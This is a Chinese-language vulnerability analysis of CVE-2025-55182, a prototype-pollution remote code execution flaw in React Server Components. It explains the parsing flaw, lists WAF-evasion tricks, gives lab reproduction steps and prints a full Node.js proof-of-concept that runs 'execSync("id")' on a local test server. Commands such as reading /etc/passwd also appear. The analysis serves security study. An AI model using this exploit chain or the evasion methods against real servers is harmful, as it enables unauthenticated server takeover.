



## React 介绍

React 是一个由 Meta（前 Facebook）开发的开源 JavaScript 库，主要用于构建用户界面（UI），特别是单页应用程序（SPA）。它采用组件化架构，允许开发者将 UI 分解为可重用的独立组件，每个组件管理自己的状态和渲染逻辑。React 的核心特性包括：

- **虚拟 DOM（Virtual DOM）**：React 通过维护一个内存中的虚拟 DOM 树来高效更新实际 DOM，只在必要时进行最小化变更，提高性能。（Document Object Model、文档对象模型、浏览器提供的一种编程接口（API），用来表示和操作网页的结构、内容和样式）
- **组件生命周期和 Hooks**：支持函数式组件和 Hooks（如 `useState`、`useEffect`），简化状态管理和副作用处理。
- **服务器端渲染（SSR）和静态站点生成（SSG）**：通过框架如 Next.js，React 可以实现服务器渲染，提高 SEO 和首屏加载速度。
- **React Server Components (RSC)**：这是 React 19+ 版本引入的特性，允许组件在服务器端运行，减少客户端 JavaScript 负载，并通过 Flight Protocol（一种数据序列化协议）传输组件数据到客户端。

在 CVE-2025-55182 的上下文中，React 的作用主要体现在其 Flight Protocol 上，该协议用于在服务器和客户端之间传输 React Server Components 的数据流，支持异步加载和高效序列化。但这也引入了潜在的安全风险，如表单数据解析中的漏洞。

## React2Shell 漏洞原理

首先需要知道 RSC，RSC 让 React 组件可以直接在服务器上运行和渲染，把更多计算和数据处理移到服务器端，从而提升性能、降低客户端负担，但也把服务器暴露给了用户提交的复杂数据（比如表单），这就给原型污染类的漏洞创造了机会。

在 React Server Components 的 Flight Protocol（也就是 RSC 传输协议）里，服务器和客户端之间传输的数据不是普通的 JSON，而是一种特殊的序列化格式，里面会包含很多以 `$` 开头的标记字符串。

这些以 `$` 开头的字符串是 React 内部用来表示"特殊引用"或"指令"的标记。React 在解析这些字符串时，会把它们当成一种"路径"或"指针"，去查找对应的对象、函数或值。

例如 `$1:foo:bar` 这种写法：

- `$` 是标记的开头，告诉 React："接下来的内容不是普通字符串，而是要特殊处理的引用或路径"。
- `1` 是一个编号（index），代表"第 1 个已经解析过的 chunk（数据块）"。在 Flight 协议里，数据是分块传输的，每个 chunk 都会被编号（`$1`、`$2`、`$3`...），React 会把这些 chunk 存到一个数组或 Map 里，编号就是用来快速引用的。
- `:foo:bar` 是路径分隔符，意思是"从这个 chunk 里沿着对象属性一级一级往下找"。

所以 `$1:foo:bar` 的完整含义是：

从第 1 个 chunk（数据块）开始，取出它的 foo 属性，再从这个 foo 里取出 bar 属性。

如果写成 JavaScript 代码，大概相当于：

```javascript
chunks[1].foo.bar
```

React 在服务器端用一个叫 `decodeReply` 的函数来解析这些表单数据，试图把用户提交的字符串重新构建成 JavaScript 对象。这个过程的核心是 `parseModelString` 和 `parseModelChunk`，它们会把特殊的标记（比如以 `$` 开头的字符串）解析成对应的对象、函数引用或者 Promise。

漏洞的根源就出在：React 为了让解析过程更灵活，允许在解析时使用**原型链遍历**（prototype chain walking）。也就是说，当遇到像 `$1:foo:bar` 这样的字符串时，它不会只看对象自身的属性，而是会沿着 `__proto__` 一路向上查找。这本来是为了支持一些高级的序列化特性，但 React 并没有严格限制这种遍历的深度和目标，也没有强制使用 `hasOwnProperty` 来隔离用户输入。

攻击者利用的就是这个"允许原型链遍历"的设计缺陷。他们会构造一个精心设计的 multipart 表单，里面塞入几个关键字段：

1. 一个带有循环引用的"假 chunk"（fake chunk），让 React 误以为这是一个有效的 thenable 对象，从而进入特定的解析路径。
2. 利用 `$` 前缀标记，结合原型链写法，比如 `$1:constructor:constructor`，让 React 沿着原型链不断向上爬，最终到达全局对象上的 Function 构造函数（因为几乎所有对象的最终原型都会指向 Object.prototype，而 Object.prototype.constructor 是 Function）。
3. 再通过 `$B` 前缀（React 内部用于处理"blob"或外部引用的一种标记）把 `_formData.get` 这个方法重定向到刚刚拿到的 Function 构造函数。

于是，当 React 在解析过程中调用 `_formData.get(somePrefix)` 试图读取某个字段时，实际上执行的是 `Function.call` 或 `Function.apply`，而攻击者已经把要执行的代码作为参数绑定在了这个 Function 上。

更直白地说：React 原本想调用"从表单里读某个字段"的操作，结果因为原型污染，这个"读字段"的函数被替换成了 Function，于是它把"读字段"变成了"执行我塞给你的代码字符串"。

最致命的一点是：这个执行发生在**服务器端**，而且是在 Node.js 的上下文里运行，所以攻击者可以直接拿到 `require`、`process`、`child_process` 等能力，执行任意系统命令（比如 `execSync('whoami')`、`execSync('cat /etc/passwd')` 等）。

总结一下漏洞的完整链条，用一句话概括就是：

攻击者通过精心构造的 multipart 表单，利用 React 在解析 Flight 协议数据时对原型链遍历的过度信任，成功把一个普通的数据读取操作（`_formData.get`）替换成全局 Function 构造函数的调用，从而在服务器端任意代码执行（RCE）。

这个漏洞的严重性在于：

- 不需要认证、不需要特殊权限
- 只需要能向服务器发送一个 POST 请求（比如通过表单提交）
- 影响所有使用漏洞版本 React Server Components 的框架（主要是 Next.js 15.x 早期版本）

修复方式也很明确：React 官方在 19.2.1 版本增加了严格的符号检查（比如 RESPONSE_SYMBOL）和原型属性过滤，彻底封死了原型链遍历到全局 Function 的路径。

## 漏洞利用路径

利用链条（Exploitation Chain）是一个多步骤过程，攻击者通过发送恶意多部分表单来触发 RCE。以下是高层次的链条描述：

1. **准备恶意负载**：攻击者构造一个 multipart/form-data 请求，包含三个字段：
    - 第一个字段：一个自引用 thenable 对象（如 `then: "$1:__proto__:then"`），创建循环引用，使其成为可解析的 "chunk"。
    - 第二个字段：一个假的 `_response` 对象，将 `_formData.get` 设置为路径遍历字符串（如 `$1:constructor:constructor`），指向 Function。
    - 第三个字段：触发值，如 `value: '{"then":"$B1337"}'`，用于激活 `$B` 处理程序。
2. **数据解析阶段**：React 的 `decodeReply()` 处理表单，解析假 chunk 为有效模型。循环引用使对象成为 thenable，调用 Chunk.prototype.then。
3. **初始化模型**：在 `initializeModelChunk()` 中，使用攻击者控制的假 `_response` 初始化 chunk，导致后续调用使用污染的对象。
4. **触发 `$B` 处理**：`parseModelString()` 遇到 `$B1337` 时，调用 `_formData.get(_prefix + "1337")`。由于 `_formData.get` 被重定向到 Function，它执行 Function(攻击者代码 + "1337")，实现任意代码执行。
5. **绕过防护**：为了绕过 WAF（如 AWS WAF），利用包括：
    - 超大体（Oversize Body）：添加填充数据，使负载超过 WAF 检查阈值（例如 128KB）。
    - 分块传输编码（Chunked Transfer Encoding）：将敏感模式（如 `$@`）拆分到不同 chunk 中。
    - 编码混淆：使用 Unicode 转义（如 `\uXXXX`）或 `fromCharCode()` 隐藏关键词。

整个链条依赖于原型污染和不安全的函数调用，允许从简单表单输入升级到服务器端 shell 执行。

## 漏洞复现

```bash
git clone https://github.com/ejpir/CVE-2025-55182-poc
cd CVE-2025-55182-poc

# Install dependencies
npm install

# Start vulnerable server (port 3002)
npm start
```



部署好环境后，另一个终端执行 `node exploit-rce-v4.js`





发现漏洞触发成功。

## POC 分析

以 `exploit-rce-v4.js` 为例分析一下 POC。

```javascript
/**
 * CVE-2025-55182 RCE - The Final Chain
 * 
 * CONFIRMED:
 * - $F1 in bound resolves to the actual function (promisify)
 * - $1:constructor:constructor resolves to Function
 * - We can nest these!
 * 
 * GOAL: Make fn = Function, bound = ["code"]
 * Then: Function.bind(null, "code")
 * When called: Function("code") -> creates function
 * But wait, that creates function, doesn't execute it
 * 
 * ACTUAL GOAL: Make fn = Function.prototype.call or apply
 * Then: call.bind(null, Function, "code")
 * When called: call(Function, "code") -> Function.call(undefined, "code") -> Function("code")
 * Still creates, doesn't execute...
 * 
 * REAL INSIGHT: We need TWO calls
 * 1. First call creates the function: Function("return 1")
 * 2. Second call executes it
 * 
 * But decodeAction only returns ONE function that gets called ONCE.
 * 
 * UNLESS... we use a wrapper pattern:
 * Function("return (function(){ return CODE })()") 
 * This creates a function that when evaluated, immediately executes!
 * 
 * Wait no. Let me trace more carefully:
 * - fn = Function
 * - bound = ["return process.mainModule.require('child_process').execSync('id').toString()"]
 * - fn.bind.apply(fn, [null, "return ..."]) = Function.bind(null, "return ...")
 * - When called: Function("return ...") = function anonymous() { return ... }
 * - This RETURNS A FUNCTION, doesn't execute it!
 * 
 * The issue is Function() creates a function, it doesn't execute the body.
 * 
 * What if we use eval instead of Function?
 * eval is a property... of what? globalThis.eval
 * Can we access globalThis from the module?
 * 
 * Actually - vm.runInThisContext("code") DOES execute!
 * If fn = vm.runInThisContext and bound = ["code"],
 * then runInThisContext.bind(null, "code")
 * when called: runInThisContext("code") -> EXECUTES!
 * 
 * I already have vm in the manifest!
 */

const http = require('http');

async function sendRequest(formFields) {
  const boundary = '----Boundary';
  const parts = [];
  for (const [name, value] of Object.entries(formFields)) {
    parts.push('--' + boundary + '\r\n' +
               'Content-Disposition: form-data; name="' + name + '"\r\n\r\n' +
               value + '\r\n');
  }
  parts.push('--' + boundary + '--\r\n');
  const body = parts.join('');

  return new Promise((resolve, reject) => {
    const req = http.request({
      hostname: 'localhost', port: 3002, path: '/formaction',
      method: 'POST',
      headers: {
        'Content-Type': 'multipart/form-data; boundary=' + boundary,
        'Content-Length': Buffer.byteLength(body)
      }
    }, (res) => {
      let data = '';
      res.on('data', chunk => data += chunk);
      res.on('end', () => resolve({ status: res.statusCode, data }));
    });
    req.on('error', reject);
    req.write(body);
    req.end();
  });
}

async function main() {
  console.log('=== CVE-2025-55182 - RCE via vm.runInThisContext ===\n');

  // vm.runInThisContext(code) executes code and returns result
  // If we can call it with our code as bound arg...
  
  console.log('Test 1: Direct call to vm#runInThisContext with code');
  let result = await sendRequest({
    '$ACTION_REF_0': '',
    '$ACTION_0:0': JSON.stringify({
      id: 'vm#runInThisContext',
      bound: ['1+1']  // Simple test first
    })
  });
  console.log('1+1 =', result.data);
  
  console.log('\nTest 2: vm.runInThisContext with require');
  result = await sendRequest({
    '$ACTION_REF_0': '',
    '$ACTION_0:0': JSON.stringify({
      id: 'vm#runInThisContext',
      bound: ['process.mainModule.require("child_process").execSync("id").toString()']
    })
  });
  console.log('RCE attempt:', result.data);
  
  // If process.mainModule is undefined, try different approach
  console.log('\nTest 3: Using global.process');
  result = await sendRequest({
    '$ACTION_REF_0': '',
    '$ACTION_0:0': JSON.stringify({
      id: 'vm#runInThisContext',
      bound: ['global.process.mainModule.require("child_process").execSync("id").toString()']
    })
  });
  console.log('RCE attempt 2:', result.data);
  
}

main().catch(console.error);
```

这个 POC 脚本是针对 CVE-2025-55182 漏洞的最终利用演示，目标是通过发送精心构造的 HTTP 请求，让运行在 localhost:3002 的易受攻击服务器执行任意代码，最终实现远程代码执行（RCE）。脚本使用 Node.js 编写，核心思路是利用 React Server Components 在处理表单数据时的解析漏洞，特别是原型链污染和函数绑定的不安全行为，来调用服务器端暴露的危险模块。

脚本开头有一段详细的注释，记录了作者的思考过程。起初作者尝试让 React 解析出一个 Function 构造函数，并通过绑定代码字符串来创建新函数，但很快发现问题：Function 构造函数只会生成一个函数对象，却不会立即执行函数体里的代码。无论是用 call/apply，还是包裹成立即执行函数，都无法在 decodeAction 只调用一次的情况下完成"创建+执行"两步。

最终作者转向了 vm 模块的 `runInThisContext` 方法。这个方法能在当前上下文中直接执行传入的字符串作为 JavaScript 代码，并返回执行结果，正好解决了只创建不执行的难题。因为 POC 服务器故意在 manifest 中暴露了 vm 模块，所以可以直接通过 ID 引用它。

实际代码分为两部分。第一部分是 `sendRequest` 函数，它负责构造 multipart/form-data 格式的 POST 请求，并发送到服务器的 /formaction 端点。这个格式非常重要，因为 React 的漏洞正好在解析这类表单数据时被触发。函数会把传入的对象字段逐个拼接成带 boundary 的 HTTP body，然后使用 Node.js 内置的 http 模块发出请求，并收集服务器返回的内容。

第二部分是 `main` 函数，它依次执行三个测试，逐步验证漏洞利用效果。第一个测试发送一个简单的表达式"1+1"，期望服务器执行后返回"2"，用来确认基本执行链是否畅通。第二个测试尝试完整的 RCE，注入的代码是 `process.mainModule.require("child_process").execSync("id").toString()`，目的是调用系统命令 id 并返回当前用户信息。第三个测试作为备用方案，把 process 换成 `global.process`，防止某些 Node.js 环境里 mainModule 不可用导致失败。每个测试都把 action 信息编码成 JSON，放在特定的字段名（`$ACTION_REF_0` 和 `$ACTION_0:0`）中，这是 React 解析 action 时的关键入口。

运行这个脚本时，会在控制台看到每个测试的标题和结果。如果环境配置正确，第二个或第三个测试应该能返回类似"uid=1000(pith) gid=1000..."这样的系统命令输出，证明 RCE 成功。

总结来说，这个 POC 通过原型链污染拿到 `vm.runInThisContext` 函数，再把恶意代码作为绑定参数传递过去，当 React 调用这个函数时，服务器就会直接执行传入的字符串，从而完成从 Web 请求到系统命令的完整攻击链。
